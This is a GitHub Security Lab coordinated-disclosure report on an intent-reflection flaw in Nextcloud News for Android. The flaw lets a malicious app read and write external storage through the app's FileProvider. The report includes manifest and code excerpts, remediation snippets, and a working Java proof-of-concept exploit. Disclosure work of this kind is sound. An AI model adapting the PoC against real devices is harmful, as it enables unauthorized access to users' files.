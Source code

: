 # GitHub Security Lab (GHSL) Vulnerability Report: `GHSL-2021-1033`

The [GitHub Security Lab](https://securitylab.github.com) team has identified a potential security vulnerability in [Nextcloud News for Android](https://github.com/nextcloud/news-android).

We are committed to working with you to help resolve this issue. In this report you will find everything you need to effectively coordinate a resolution of this issue with the GHSL team.

If at any point you have concerns or questions about this process, please do not hesitate to reach out to us at `securitylab@github.com` (please include `GHSL-2021-1033` as a reference).

If you are _NOT_ the correct point of contact for this report, please let us know!

## Summary

The Nextcloud News for Android app has a security issue by which a malicious application installed on the same device can send it an arbitrary Intent that gets reflected back, unintentionally giving read and write access to non-exported Content Providers in Nextcloud News for Android.

## Product

Nextcloud News for Android

## Tested Version

0.9.9.62 (latest)

## Details

### Issue 1: Intent URI permission manipulation (`GHSL-2021-1033`)

The activity `SettingsActivity` is exported (since it has an `intent-filter`), as it can be seen in the Android Manifest:

[`AndroidManifest.xml:66`](https://github.com/nextcloud/news-android/blob/df13ae1c42f60dc9461278081ca3f6fd20a602e9/News-Android-App/src/main/AndroidManifest.xml#L66)

```xml
<activity
    android:name=".SettingsActivity"
    android:configChanges="keyboardHidden|orientation|screenSize"
    android:label="@string/title_activity_settings">
<intent-filter>
    <action android:name="de.luhmer.owncloudnewsreader.ACCOUNT_MANAGER_ENTRY" />
    <category android:name="android.intent.category.DEFAULT" />
</intent-filter>
</activity>
```

In its `onStart` method, this activity obtains the incoming `Intent` and returns it back to the calling application using `setResult`:

[`SettingsActivity.java:149`](https://github.com/nextcloud/news-android/blob/df13ae1c42f60dc9461278081ca3f6fd20a602e9/News-Android-App/src/main/java/de/luhmer/owncloudnewsreader/SettingsActivity.java#L149)

```java
@Override
protected void onStart() {
    super.onStart();
    Intent intent = getIntent();
    intent.putExtra(
            SettingsActivity.SP_FEED_LIST_LAYOUT,
            mPrefs.getString(SettingsActivity.SP_FEED_LIST_LAYOUT, "0")
    );
    setResult(RESULT_OK,intent);
}
```

Because of this, any application that uses `startActivityForResult` to start `SettingsActivity` with an arbitrary Intent will receive it back.

An attacker can exploit this by including the flags `FLAG_GRANT_URI_READ_PERMISSION` and/or `FLAG_GRANT_URI_WRITE_PERMISSION` in the Intent, which once returned by Nextcloud News will provide access to any of its Content Providers that has the attribute `android:grantUriPermissions="true"`, even if it is not exported.

Nextcloud News declares the `FileProvider` Content Provider in its Android Manifest:

[`AndroidManifest.xml:164`](https://github.com/nextcloud/news-android/blob/df13ae1c42f60dc9461278081ca3f6fd20a602e9/News-Android-App/src/main/AndroidManifest.xml#L164)

```xml
<provider
    android:name="androidx.core.content.FileProvider"
    android:authorities="${applicationId}.provider"
    android:exported="false"
    android:grantUriPermissions="true">
    <meta-data
        android:name="android.support.FILE_PROVIDER_PATHS"
        android:resource="@xml/file_provider_paths" />
</provider>
```

The files it gives access to are defined in [`file_provider_paths`](https://github.com/nextcloud/news-android/blob/df13ae1c42f60dc9461278081ca3f6fd20a602e9/News-Android-App/src/main/res/xml/file_provider_paths.xml):

```xml
<?xml version="1.0" encoding="utf-8"?>
<paths>
    <external-path
        name="external_files" path="." />
</paths>
```

With this information, and attacker can create an Intent targeted to `SettingsActivity` with the appropriate flags and the data URI `content://de.luhmer.owncloudnewsreader.provider/external_files/` to access the external storage using Nextcloud News as a proxy without needing to request the external storage permissions.

See the `Resources` section for a proof of concept exploiting this vulnerability.

#### Impact

This issue may lead to Privilege Escalation: a malicious application can use Nextcloud News for Android as a proxy to access the device's external storage without needing to request the appropriate permission to do so.

In a worst-case scenario, the attacker could overwrite files that are saved in the external storage and are owned and used by Nextcloud News to alter its functionality, since it is mentioned in [`PRIVACY.md`](https://github.com/nextcloud/news-android/blob/df13ae1c42f60dc9461278081ca3f6fd20a602e9/PRIVACY.md?plain=1#L34) that the external storage is used for caching purposes:

> * `android.permission.WRITE_EXTERNAL_STORAGE`
>
> Used for caching purposes / offline reading / storing podcasts 

#### Remediation

When it is needed to return data to the calling activity with `setResult`, use a new `Intent` that contains only the appropriate pieces of data (like extras) whenever possible. 

```java
Intent intent = new Intent();
// set extras as needed
setResult(Activity.RESULT_OK, intent);
```

If reusing the original Intent sent by the calling activity is needed, make sure that its `data` and `flags` are set to safe values:

```java
Intent intent = getIntent();
intent.setData(Uri.parse("content://safe/uri"));
intent.setFlags(Intent.FLAG_ACTIVITY_NEW_TASK);
// or
intent.removeFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION);
intent.removeFlags(Intent.FLAG_GRANT_WRITE_URI_PERMISSION);
setResult(RESULT_OK, intent);
```

Alternatively, check that the Intent's `data` and `flags` contain expected values:

```java
Intent intent = getIntent();
if (!intent.getData().equals(Uri.parse("content://safe/uri"))) {
    setResult(RESULT_CANCELED);
    return;
}
if (!((intent.getFlags() & Intent.FLAG_GRANT_READ_URI_PERMISSION) == 0
        && (intent.getFlags() & Intent.FLAG_GRANT_WRITE_URI_PERMISSION) == 0)) {
    setResult(RESULT_CANCELED);
    return;
}
setResult(RESULT_OK, intent);
```

#### Resources

The following PoC demonstrates how a malicious application with no special permissions could read and write from the external storage in behalf of Nextcloud News exploiting the issue mentioned above:

```java
public class IntentUriManipulationPoc extends Activity {

    public void poc() {
        Intent i = new Intent();
        i.setClassName("de.luhmer.owncloudnewsreader", "de.luhmer.owncloudnewsreader.SettingsActivity");
        i.addFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION | Intent.FLAG_GRANT_WRITE_URI_PERMISSION);
        i.setData(Uri.parse("content://de.luhmer.owncloudnewsreader.provider/external_files/Documents/test.txt"));
        startActivityForResult(i, 5);
    }

    protected void onActivityResult(int requestCode, int  resultCode, Intent data) {
        super.onActivityResult(requestCode, resultCode, data);
        try {
            OutputStream outputStream = getContentResolver().openOutputStream(data.getData());
            outputStream.write("pwned".getBytes());
            Log.w("attacker", "Written!");
            InputStream inputStream = getContentResolver().openInputStream(data.getData());
            Log.w("attacker", IOUtils.toString(inputStream, StandardCharsets.UTF_8));
        } catch (Exception e) {
            Log.e("attacker", e.toString());
        }

    }
}
```

## GitHub Security Advisories

We recommend you create a private [GitHub Security Advisory](https://help.github.com/en/github/managing-security-vulnerabilities/creating-a-security-advisory) for this finding. This also allows you to invite the GHSL team to collaborate and further discuss this finding in private before it is [published](https://help.github.com/en/github/managing-security-vulnerabilities/publishing-a-security-advisory).

## Credit

This issue was discovered and reported by the CodeQL static languages team member [@atorralba (Tony Torralba)](https://github.com/atorralba).

## Contact

You can contact the GHSL team at `securitylab@github.com`, please include a reference to `GHSL-2021-1033` in any communication regarding this issue.

## Disclosure Policy

This report is subject to our [coordinated disclosure policy](https://securitylab.github.com/advisories#policy).
